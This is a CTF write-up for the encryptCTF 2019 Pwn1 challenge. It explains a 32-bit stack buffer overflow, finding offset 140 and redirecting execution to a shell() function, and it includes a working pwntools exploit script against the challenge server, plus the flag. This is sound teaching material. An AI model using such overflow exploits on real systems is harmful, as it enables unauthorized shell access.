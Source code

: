 ```yaml
---
layout: single
title: encryptCTF 2019 Pwn Write-up 2 of 5
excerpt: Second part of my encryptCTF 2019 Pwn write-up series. This challenge tackles basic stack buffer overflow — overwriting saved return address to control the program flow.
date: '2019-04-04T08:06:21.960Z'
classes: wide
categories:
- ctf
- encryptctf
tags:
- pwn
---
```


| ![First pwn board wipe of the year. hsb represent! ](https://cdn-images-1.medium.com/max/800/1*ycEO30rNNBaEmC9qIWf8VQ.png) |
|:--:|
| First pwn board wipe of the year. hsb represent!  |

### Pwn1 Solution (50 pts.)

> This challenge tackles basic stack buffer overflow — overwriting saved return address to control the program flow.

Challenge description:

> Let’s do some real stack buffer overflow.

Let’s examine the binary.

![Commands used: `file` and `gdb` `checksec`](https://cdn-images-1.medium.com/max/800/1*28DBoAQpH1zjYZHsoLTpgA.png)

Commands used: `file` and `gdb` `checksec`

Upon checking, we can see that the file is a `32-bit ELF executable,` and `Canary`, `PIE` and `RelRo` are disabled. Hence, we can try to do a `buffer overflow` to overwrite the saved return address.

Let’s try to run the binary.

![](https://cdn-images-1.medium.com/max/800/1*7_QNApZ657vA0THch0wtSQ.png)

The program asks for a user input. Let’s enter a long string and check if we can control the program flow. We can use `msf-pattern_create.rb` to generate a long unique pattern.

![msf-pattern_create.rb is a script from metasploit-framework](https://cdn-images-1.medium.com/max/800/1*EvF5avd7k9j72cdyyxnz6g.png)

Let’s use the generated string as our input.

![oooohhhh, segmentation fault ](https://cdn-images-1.medium.com/max/800/1*O5Kf8Y0MgadJeLOk-S_i_g.png)

Segmentation fault! It seems that we have overwritten the saved return address with `0x37654136`. Let’s use `msf-pattern_offset.rb` to compute the offset.

![offset @ 140](https://cdn-images-1.medium.com/max/800/1*hQeGrPsqkWlZpn6GGSayQw.png)

With these info, we can test a sample payload to confirm if we can control the instruction pointer.

```
payload = [140 bytes buffer] + "BBBB"   
payload = "A"*140 + "B"*4
```

![Aha! We have overwritten the return address with `BBBB`](https://cdn-images-1.medium.com/max/800/1*_VMZhK8uH7lHgK3b-PJA6g.png)

We have successfully overwritten the return address! Now, let’s look for functions that can be used to exploit the program.

Let’s fire up `radare2` and look for functions.

![shell() — hmmmmmmm??](https://cdn-images-1.medium.com/max/800/1*koSM5LovUW2HZEUMgmp6uw.png)

Upon checking the functions, there is a `WIN` function. This shell() function (`0x080484ad`) works like this —

```
shell() = system('/bin/bash')
```

Since we already have a control on the program flow, we can force to execute the shell function after the execution of the main function.

Let’s use our previous payload template and replace `BBBB` with `0x080484ad`.

```
payload = [140 bytes buffer] + [address]  
prev_payload = "A"*140 + "B"*4  
new_payload = "A"*140 + 0x080484ad
```

Let’s try to send this payload with this script.

```
./exploit.py

from pwn import *

r = remote('104.154.106.182', 2345)

shell_addr = 0x080484ad  
offset = 140

payload = ""  
payload += "A"*140  
payload += p32(shell_addr)

r.recvuntil('name:')

log.info('Payload format: [140 bytes buffer] + 0x80484ad')  
log.info('Sending payload...')  
log.info('Overwriting return address with {}'.format(hex(shell_addr)))  
r.sendline(payload)  
r.recvline()

log.info('Enjoy your shell! ')  
r.interactive()
```

Running the script will give us a beautiful shell.

![shell!](https://cdn-images-1.medium.com/max/800/1*9BRbl9vVc1gA8yjy7gy3Xg.png)

The exploit worked! And we got the flag 

Flag: `encryptCTF{Buff3R_0v3rfl0W5_4r3_345Y}`

-

— ar33zy

[hackstreetboys](https://hackstreetboys.ph/) aka [hsb] is a CTF team from the Philippines.

Please do like our [Facebook Page](https://www.facebook.com/hackstreetboys/) and Follow us on [Twitter](https://twitter.com/_hackstreetboys), [Medium](https://medium.com/hackstreetboys), and [GitHub](https://github.com/hackstreetboysph).
